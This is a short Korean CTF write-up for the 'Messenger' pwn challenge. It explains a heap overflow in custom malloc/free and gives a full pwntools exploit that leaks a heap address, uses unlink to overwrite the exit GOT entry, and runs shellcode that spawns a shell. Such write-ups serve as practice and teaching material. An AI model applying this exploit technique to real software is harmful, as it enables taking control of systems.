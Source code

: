 Messenger (pwn)
=============

### 1. Introduction

예선이라 그런지 본선이랑 문제 퀄리티가 다르다. 금방 풀었다.

### 2. Vulnerability

Custom Malloc 이랑 Custom Free를 쓰면서 Heap Overflow를 줬다. 그러니 그냥 unlink로 풀었다. (NX도 풀려있음)

### 3. Exploit
```python
from ntpwn import *

# local
s = process('./messenger')
b = BP(s)
b.bp('c')
b.done()

e = ELF('./messenger')
context.arch = 'amd64'

def leave(size,msg):
	s.sendlineafter('>> ','L')
	s.sendlineafter('size : ',size)
	s.sendafter('msg : ',msg)

def remove(idx):
	s.sendlineafter('>> ','R')
	s.sendlineafter('index : ',idx)

def change(idx,size,msg):
	s.sendlineafter('>> ','C')
	s.sendlineafter('index : ',idx)
	s.sendlineafter('size : ',size)
	s.sendafter('msg : ',msg)

def view(idx):
	s.sendlineafter('>> ','V')
	s.sendlineafter('index : ',idx)

# size <= 32
leave('32','A' * 32)
leave('32','A' * 32)

change('0','100', 'B' * 0x30 + 'A' * 0x8 )
view('0')
s.recvuntil('A' * 0x8)
heap = u32(s.recvline()[:-1].ljust(4,'\x00'))
log.info("HEAP : " + hex(heap))

payload = 'B' * 0x28
payload += 'A' * 0x8
payload += p64(0x49) + p64(e.got['exit'] - 0x10) + p64(heap - 0x30)
change('0','100', payload )
remove('1')

change('0','200', 'B' * 0x48 + asm(shellcraft.sh()))
s.sendlineafter('>> ','NEXTLINE')

s.interactive()
```

